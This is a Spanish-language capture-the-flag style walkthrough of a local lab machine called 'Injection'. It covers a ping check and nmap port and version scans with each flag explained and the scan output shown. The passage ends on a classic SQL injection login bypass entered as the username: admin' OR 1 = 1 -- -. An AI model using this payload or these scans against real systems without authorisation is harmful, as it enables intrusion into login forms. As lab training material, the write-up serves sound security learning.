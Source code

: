 # Injection

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Vamos directamente a la enumerar el puerto 80 desde el navegador y vemos que hay un formulario de login. Probamos una inyección sql.
```bash
User: admin' OR 1 = 1 -- -
Password: hola
```

